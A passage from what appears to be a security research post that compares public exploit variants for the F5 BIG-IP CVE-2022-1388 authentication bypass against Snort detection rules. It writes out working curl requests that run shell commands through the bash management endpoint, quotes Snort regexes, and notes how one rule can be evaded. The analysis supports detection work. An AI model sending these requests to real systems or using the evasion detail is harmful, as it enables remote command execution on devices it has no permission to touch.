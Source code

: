 choosing)\\nA Connection header that only contains \`X-F5-Auth-Token\`\\nAn X-F5-Auth-Token header that can contain any value.\\n\\nThis is easily reproduced using the following \`curl\` request:\\n\\n\`\`\`sh\\ncurl -kv -H 'Content-Type: application/json' -H "Host: 127.0.0.1" -H 'Connection: X-F5-Auth-Token' -H 'X-F5-Auth-Token: authtoken' -H 'Authorization: Basic YWRtaW468J+mng==' -d '{"command": "run", "utilCmdArgs": "-c id"}' https://10.9.49.191/mgmt/tm/util/bash;\\n> POST /mgmt/tm/util/bash HTTP/1.1\\n> Host: 127.0.0.1\\n> User-Agent: curl/7.68.0\\n> Accept: \*/\*\\n> Content-Type: application/json\\n> Connection: X-F5-Auth-Token\\n> X-F5-Auth-Token: authtoken\\n> Authorization: Basic YWRtaW468J+mng==\\n> Content-Length: 42\\n\`\`\`\\n\\nHorizon3.ai was (and is, in our eyes) the authoritative source on this vulnerability, so it’s unsurprising to see most GitHub exploits follow this pattern. However, there were a couple of notable subvariants of this approach.\\n\\n1. Exploits that used \`Host: localhost\` instead of \`Host: 127.0.0.1\`. While not actually included in this analysis, the Metasploit module for CVE-2022-1388 falls into this camp. Presumably, an alphanumeric Host field is less suspicious than a non-routable IP.\\n2. Exploits using \`Connection: close, X-F5-Auth-Token\` or \`Connection: keep-alive, X-F5-Authtoken\` instead of just \`Connection: X-F5-Auth-Token\`. We’re unsure what drove this innovation as none of the cited Snort rules are tripped up by this variation. More than a few exploits used this approach, so we assume it’s done to satisfy a WAF requirement.\\n\\nIt’s interesting to note that Emerging Threats Snort 2.9 Rule 2036556 does not detect the original variation, but it will detect the \`Connection: xxxx, X-F5-Auth-Token\` sub-variant (which means it’ll catch Metasploit and \[Nuclei\](https://github.com/projectdiscovery/nuclei-templates/blob/5ffdd65882c35919828210c82321015be6bc439f/cves/2022/CVE-2022-1388.yaml#L46)). The error in 2036556 is a slight mistake in the following regular expression:\\n\\n\`\`\`py\\npcre:"/^Connection\\x3a\\x20\[^\\r\\n\]+x-F5-Auth-Token/Hmi"; \\\\n\`\`\`\\n\\nThe character class \`\[^\\r\\n\]+\` consumes the first \`X\` when the \`Connection\` header only contains \`X-F5-Auth-Token\`. Snort 2.9 Community Rule 59735 has a more accurate version of this regular expression:\\n\\n\`\`\`py\\npcre:"/^Connection:\[^\\r\\n\]\*?X-F5-Auth/Him";\\n\`\`\`\\n\\nJust like that, we already have an interesting tidbit of knowledge. The signature does detect two of the biggest sources for exploitation (Metasploit and Nuclei) , but now we know we can craft a payload that it doesn’t detect. The other two Snort rules remain problematic however, so let’s move on to the other exploit variants.\\n\\n\\n### 2. The X-Forwarded-Host Variant\\n\\nThe \`X-Forwarded-Host\` \[variant\](https://raw.githubusercontent.com/jbharucha05/CVE-2022-1388/main/CVE-2022-1388.sh) was suggested by Horizon3.ai in their technical write-up, but they didn’t use this approach in their published exploits. An exploit for CVE-2022-1388 doesn’t need to use \`Host: localhost\` or \`Host: 127.0.0.1\` if the \`Connection\` header contains \`X-Forwarded-Host\`. Another example:\\n\\n\`\`\`sh\\ncurl -kv -H 'Content-Type: application/json' -H 'Connection: X-F5-Auth-Token, X-Forwarded-Host' -H 'X-F5-Auth-Token: authtoken' -H 'Authorization: Basic YWRtaW468J+mng==' -d '{"command": "run", "utilCmdArgs": "-c id"}' https://10.9.49.191/mgmt/tm/util/bash;\\n> POST /mgmt/tm/util/bash HTTP/1.1\\n> Host: 10.9.49.191\\n> User-Agent: curl/7.68.0\\n> Accept: \*/\*\\n> Content-Type: application/json\\n> Connection: X-F5-Auth-Token, X-Forwarded-Host\\n> X-F5-Auth-Token: authtoken\\n> Authorization: Basic YWRtaW468J+mng==\\n> Content-Length: 42\\n\`\`\`\\n\\nAs suggested previously, a \`Host\` field that doesn’t match the actual target is really suspicious, so this is likely a smarter variant to use in the wild. However, none of the three Snort rules concern themselves with the \`Host\` header. Apparently, their authors also read the Horizon3.ai write-up. So, while this variant is smart, it’s not good enough. Let’s see the next variant.\\n\\n### 3. The “Kind of Works” Variant\\n\\nThere are quite a few \[exploits\](https://raw.githubusercontent.com/alt3kx/CVE-2022-1388\_PoC/main/README.md) that don’t have the required \`Host: 127.0.0.1\` or \`Host: localhost\` \*\*and\*\* they don’t use the \`X-Forwarded-Host\` value in the \`Connection\` header. They effectively look like this:\\n\\n\`\`\`sh\\ncurl -kv -H 'Content-Type: application/json' -H 'Connection: X-F5-Auth-Token' -H 'X-F5-Auth-Token: authtoken' -H 'Authorization: Basic YWRtaW468J+mng==' -d '{"command": "run", "utilCmdArgs": "-c id"}' https://10.9.49.191/mgmt/tm/util/bash;\\n> POST /mgmt/tm/util/bash HTTP/1.1\\n> Host: 10.9.49.191\\n> User-Agent: curl/7.68.0\\n> Accept: \*/\*\\n> Content-Type: application/json\\n> Connection: X-F5-Auth-Token\\n> X-F5-Auth-Token: authtoken\\n> Authorization: Basic YWRtaW468J+mng==\\n> Content-Length: 42\\n\`\`\`\\n\\nThis variant doesn’t work on our test installation (BIG-IP version 16.1.2.1 - December 22, 2021), but many exploits on GitHub that follow this pattern. Originally, we assumed these exploits were broken, but we looked deeper given their volume. We couldn’t get our hands on an older installation, but we found this \[YouTube video\](https://www.youtube.com/watch?v=bLYAzyBwIV4) demonstrating this variant working on a BIG-IP version from 2019. So, these exploits work, but only on old targets. They “kind of work.”\\n\\nThis is also our first real deviation from Horizon3.ai. Pretty interesting! How and why this variant became popular is a mystery. Perhaps a misunderstanding on the importance of the \`Host\` header. But it doesn’t matter too much, none of the three Snort rules are fooled by the missing values. So we forge ahead.\\n\\n\\n### 4.